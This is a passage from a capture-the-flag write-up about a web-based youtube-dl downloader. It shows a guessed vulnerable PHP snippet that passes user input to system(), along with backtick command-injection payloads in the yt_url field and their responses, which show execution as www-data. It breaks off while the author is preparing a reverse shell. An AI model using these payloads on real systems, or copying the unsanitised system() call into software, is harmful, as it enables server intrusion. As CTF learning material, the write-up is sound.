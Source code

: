 We get some kind of output. Then I searched the things on the output and found a [github](https://github.com/ytdl-org/youtube-dl) link for the project. It turned out to be a youtube downloader.  

### Hypothesis
```php
    video_url = $_REQUEST['yt_url'];
    echo system('youtube-dl '. video_url . ' --outfile ' . '/tmp/garabge' );
```
This might not be entirely true but I like to imagine what  developer might have done to get what he/she wants. If this is the case, we might be able to inject commands.

# Trying Command injections
### Request
```html
yt_url=`id`
```

### Response
```html
{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR:   
 u'uid=33(www-data)'   
  is not a valid URL. Set --default-search \"ytsearch\" (or run  youtube-dl \"ytsearch:uid=33(www-data)\" ) to search YouTube\n","url_orginal":"`id`","output":"","result_url":"\/tmp\/downloads\/5fbe255dee50f.mp3"}
```
And we can see **www-data** on the response which means we can run commands but the problem is that the output doesnot looks to be complete.
As we can execute code, lets try to get a reverse shell.

## Reverse shell as www-data

I first tried to read the files on the webserver to see how all the system is implemented.

### Lisiting files on the webserver
### Request 
```html
yt_url=`ls>/var/www/html/test.txt`
```
Since we the ouput was limited, I directed the content of the result to a file.

### Response
```html
admin
images
index.php
js
style.css
test.txt
tmp
```
Here the intended path was to get the content of **.htpasswd** file, crack the hash and login as admin to get code execution. But I will try to get the reverse shell with the things that we have now.
For that we have to try and execute commands without space as with space we get an error.
